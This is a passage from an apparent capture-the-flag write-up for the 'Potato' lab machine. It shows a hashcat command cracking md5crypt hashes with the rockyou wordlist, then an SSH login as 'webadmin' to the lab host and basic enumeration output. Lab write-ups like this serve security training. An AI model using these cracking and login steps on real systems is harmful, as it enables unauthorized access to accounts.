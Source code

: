  Now I used `hashcat tool` →

```bash
hashcat -m 500 hashes.txt /usr/share/wordlists/rockyou.txt
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Potato/Untitled%208.png)

Lets login into it →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/potato]
└─$ ssh webadmin@10.0.2.58
The authenticity of host '10.0.2.58 (10.0.2.58)' can not be established.
ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.58' (ED25519) to the list of known hosts.
webadmin@10.0.2.58 is password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 29 May 2023 06:38:47 AM UTC

  System load:  0.08               Processes:               125
  Usage of /:   14.9% of 31.37GB   Users logged in:         0
  Memory usage: 48%                IPv4 address for enp0s3: 10.0.2.58
  Swap usage:   0%

61 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sun Aug  2 19:56:20 2020 from 192.168.1.11
webadmin@serv:~$ whoami
webadmin
webadmin@serv:~$ id
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
webadmin@serv:~$ uname -an
Linux serv 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
